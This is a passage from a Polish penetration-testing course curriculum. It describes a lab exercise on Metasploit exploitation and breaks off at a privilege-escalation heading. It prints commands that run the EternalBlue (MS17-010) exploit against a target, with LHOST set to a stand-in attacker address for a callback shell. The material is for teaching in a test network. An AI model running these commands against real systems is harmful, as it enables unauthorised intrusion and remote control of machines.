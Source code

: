 **Oczekiwane rezultaty**:
- Uczestnicy potrafią analizować konfigurację
- Znają dobre praktyki konfiguracji
- Potrafią identyfikować błędy

---

## 4. Ćwiczenia z eksploitacji

### Ćwiczenie 4.1: Wykorzystanie luk z Metasploit

**Cel**: Nauka używania Metasploit do eksploitacji

**Czas**: 90 minut

**Materiały**:
- Komputery z zainstalowanym Metasploit
- Testowa sieć z podatnościami
- Dokumentacja Metasploit

**Instrukcje**:
1. Uczestnicy identyfikują podatności w testowej sieci
2. Używają Metasploit do eksploitacji:
   - Wyszukują odpowiednie exploit
   - Konfigurują payload
   - Wykonują atak
   - Uzyskują dostęp do systemu
3. Dokumentują proces eksploitacji

**Przykładowe exploity**:
```bash
# Uruchomienie Metasploit
msfconsole

# Wyszukiwanie exploitów
search ms17-010

# Użycie exploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target
set LHOST attacker_ip
exploit
```

**Oczekiwane rezultaty**:
- Uczestnicy potrafią używać Metasploit
- Znają proces eksploitacji
- Rozumieją znaczenie payload

---

### Ćwiczenie 4.2: Eskalacja uprawnień

**Cel**: Nauka technik eskalacji uprawnień
